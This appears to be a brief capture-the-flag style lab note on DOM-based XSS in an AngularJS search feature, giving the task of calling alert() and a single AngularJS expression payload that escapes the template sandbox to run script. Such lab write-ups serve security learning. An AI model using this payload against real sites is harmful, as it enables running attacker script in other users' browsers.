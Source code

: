 # DOM XSS in AngularJS Expression within Search Functionality

## Task : Call the `alert()` function

Analysis : {{$on.constructor('alert(1)')()}}
